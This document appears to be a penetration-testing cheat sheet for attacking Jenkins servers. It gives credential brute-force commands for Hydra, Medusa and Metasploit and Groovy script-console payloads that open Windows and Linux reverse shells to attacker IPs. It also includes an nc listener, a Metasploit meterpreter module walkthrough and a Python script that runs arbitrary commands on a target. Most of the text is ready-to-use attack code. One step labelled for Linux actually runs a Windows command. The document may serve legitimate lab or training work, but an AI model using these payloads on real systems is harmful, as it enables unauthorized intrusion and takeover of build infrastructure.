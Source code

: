 ### **Introduction**

Jenkins is an open-source automation server used for continuous integration and delivery (CI/CD) in software development. It automates tasks like building, testing, and deploying software, and supports a vast range of plugins to extend its capabilities.

### **Identifying Jenkins Version**

1.  Check Version on Login Page:  
    `Look at the bottom of the Jenkins login page for the version number.`
2.  Using Jenkins API:  
    `curl -s http://[JENKINS-IP]/api/json | jq .`
3.  From the System Information page:  
    After logging in, navigate to `Manage Jenkins` → `System Information`.

### **Brute Force Credentials**

1.  Brute-Forcing with Metasploit:  
    `auxiliary/scanner/http/jenkins_login`
2.  Brute-Forcing with Hydra:  
    `hydra -l admin -P /path/to/wordlist.txt [JENKINS-URL] http-form-post "/j_acegi_security_check:j_username=^USER^&j_password=^PASS^&Submit=Log+in:Invalid username or password" -V`
3.  Brute-Forcing with Medusa:  
    `medusa -h [JENKINS-URL] -U /path/to/usernames.txt -P /path/to/wordlist.txt -M web-form -m DIR:/j_acegi_security_check -m FORM:'/j_acegi_security_check:j_username=^USER^&j_password=^PASS^&Submit=Log+in:Invalid username or password'`

### **Remote Code Execution via Script Console**

1.  Access script console:  
    `http://[JENKINS-DOMAIN]:8080/script`
2.  Execute a Simple whoami:
    ```Groovy
    def cmd = 'whoami'
    def sout = new StringBuffer(), serr = new StringBuffer()
    def proc = cmd.execute()
    proc.consumeProcessOutput(sout, serr)
    proc.waitForOrKill(1000)
    println sout
    ```

3.  Run Linux Commands:
    ```Groovy
    def cmd = "cmd.exe /c dir".execute();
    println("${cmd.text}");
    ```
    
4.  Windows Reverse Shell:
    ```Groovy
    String host="10.10.14.3";
    int port=1337;
    String cmd="cmd.exe";
    Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
    ```
    
5.  Linux Reverse Shell:
    ```Groovy
    r = Runtime.getRuntime()
    p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.10.14.15/1337;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
    p.waitFor()
    ```
    
6 . Run listener with rlwrap to make the shell more usable  
    `sudo rlwrap -cAr nc -lvnp 1337`

### **Automating Exploitation with Metasploit**

```bash
# 1. Launch Metasploit
msfconsole

# 2. Load the Jenkins script console exploit
use exploit/multi/http/jenkins_script_console

# 3. Set the target IP address
set RHOSTS [TARGET-IP]

# 4. Set the Jenkins port (default is 8080)
set RPORT 8080

# 5. Set the path to the script console
set TARGETURI /script

# 6. Choose your payload (reverse shell using Meterpreter)
set PAYLOAD java/meterpreter/reverse_tcp

# 7. Set your local IP address (attacker)
set LHOST [LOCAL-IP]

# 8. Set the port to receive the reverse shell
set LPORT [LOCAL-PORT]

# 9. Run the exploit
exploit
```
### **Automating Exploitation with Python Script**

```Python
#!/usr/bin/env python3
import requests
import argparse
import re
import json


import urllib3
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

parser = argparse.ArgumentParser(description = 'Jenkins Admin Groovy Console exec')
parser.add_argument('url', type=str)
parser.add_argument('-u', '--user', type=str)
parser.add_argument('-p', '--password', type=str)
parser.add_argument('-c', '--command', type=str, required=True)
parser.add_argument('-C', '--cookie', type=str)
parser.add_argument('-K', '--crumb', type=str)

args = parser.parse_args()
URL = args.url
COOKIES = {}
if args.user and args.password:
    AUTH = (args.user, args.password)
else:
    AUTH = None
if args.cookie:
    COOKIES = json.loads(args.cookie)

DATA = {'script':"def proc = ['bash', '-c', '''{}'''].execute();def os = new StringBuffer();proc.waitForProcessOutput(os, os);println(os.toString());".format(args.command)}

if args.crumb:
    DATA.update(json.loads(args.crumb))

r = requests.post(URL + '/script', data=DATA, auth=AUTH, cookies=COOKIES, verify=False)
m = re.search('<h2>Result</h2><pre>(.*)</pre>', r.text, flags=re.DOTALL)
if m:
    print(m.group(1))
else:
    print('oops')
    print(r.text)
```